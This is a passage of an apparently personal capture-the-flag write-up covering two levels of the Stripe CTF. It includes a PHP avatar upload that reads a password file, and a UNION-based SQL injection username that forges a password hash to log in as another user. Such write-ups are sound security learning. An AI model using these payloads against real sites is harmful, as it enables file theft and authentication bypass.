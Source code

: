 The vulnerability here is called "PHP".  Yeah, whatever, PHP runs Facebook, I don't care, go away.


## Level 2: Social Network

PHP again.  Now we're getting into exploits I have, tragically, actually seen in the wild.  The password is still stored in a file (that cannot be read directly), but now the only real entry point to the program is uploading an avatar.

So.  Yeah.

###### my\_avatar.php
```php
<?php echo file_get_contents('../password.txt');
```

Upload that as your avatar and visit the URL.  PHP injection.

Props to level 1 for reminding me that `file_get_contents` exists.


## Level 3: Secret Vault

Level 2 was the last of the PHP puzzles.  Now we're getting serious.  This one is a [Flask][] app—i.e., Python.

This is a sequel to the Secret Safe, but it's the same general idea, except that namespaces and keys have been replaced with genuine usernames and passwords.

A glance over the code, and something stands out:

```python
    query = """SELECT id, password_hash, salt FROM users
               WHERE username = '{0}' LIMIT 1""".format(username)
```

This, then, is the obligatory SQL injection puzzle.

I am shamed to admit I took a few minutes on this—way longer than I should have.  I tried to trick SQLite into running multiple statements here, or embedding an `INSERT`/`UPDATE` inside this `SELECT`.  Those don't work, which is good.

I didn't get it until I rephrased the question as: how can I trick this query into retrieving data that's _not_ really from the `users` table?

Oh, right.  New username:

    :::text
    ' UNION SELECT (select id from users where username = 'bob'), '2c26b46b68ffc68ff99b453c1d30413413422d706483bfa0f98a5e886266e7ae', '

Which produces the final query:

```sql
SELECT id, password_hash, salt FROM users WHERE username = ''
UNION
SELECT (select id from users where username = 'bob'), '2c26b46b68ffc68ff99b453c1d30413413422d706483bfa0f98a5e886266e7ae', ''
LIMIT 1
```


[Flask]: http://flask.pocoo.org/
[klange]: https://twitter.com/kevinlange
[ruby regex]: http://homakov.blogspot.com/2012/05/saferweb-injects-in-various-ruby.html
[HLE impl]: http://www.vnsecurity.net/t/length-extension-attack/
[Twisted]: http://twistedmatrix.com/trac/
[leaderboard]: https://stripe-ctf.com/leaderboard
[engineer's victory dance]: http://dilbert.com/strips/comic/1997-11-27/
[Stripe]: https://stripe.com/
[stripe ctf]: https://stripe-ctf.com/
[progress]: https://stripe-ctf.com/progress/eevee
[level8.py]: http://paste.pound-python.org/show/XVsuIyr0pmBX24Fy1YOQ/
[list of solvers]: https://docs.google.com/spreadsheet/viewform?formkey=dHBYSjJyY1V3dFdUN1hvMVB5cUU0Nnc6MQ